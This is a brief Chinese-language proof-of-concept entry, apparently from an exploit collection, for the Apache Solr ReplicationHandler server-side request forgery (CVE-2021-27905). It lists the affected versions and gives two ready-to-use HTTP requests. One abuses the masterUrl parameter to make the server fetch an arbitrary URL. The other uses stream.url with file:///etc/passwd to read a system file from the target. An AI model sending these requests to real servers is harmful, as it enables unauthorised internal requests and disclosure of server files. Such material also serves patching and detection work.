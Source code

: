 # Apache Solr Replication handler SSRF（CVE-2021-27905）


Apache Solr是一个开源搜索服务引擎，Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。漏洞产生在 ReplicationHandler 中的 masterUrl 参数（ leaderUrl 参数）可指派另一个 Solr 核心上的 ReplicationHandler 讲索引数据复制到本地核心上。成功利用此漏洞可造成服务端请求伪造漏洞。

影响版本：

Apache Solr 7.0.0 - 7.7.3 Apache Solr 8.0.0 - 8.8.1

poc：

```
GET /solr/test/replication?command=fetchindex&masterUrl=http://127.0.0.1/&wt=json&httpBasicAuthUser=&httpBasicAuthPassword= HTTP/1.1
HOST:target
....
```


```
GET http://xxxxx/solr/xxxx/debug/dump?stream.url=file:///etc/passwd&param=ContentStream HTTP/1.1
HOST:target
...
```

ref：

* https://nox.qianxin.com/vulnerability/detail/92900
* https://nvd.nist.gov/vuln/detail/CVE-2021-27905
* https://forum.ywhack.com/thread-115470-1-5.html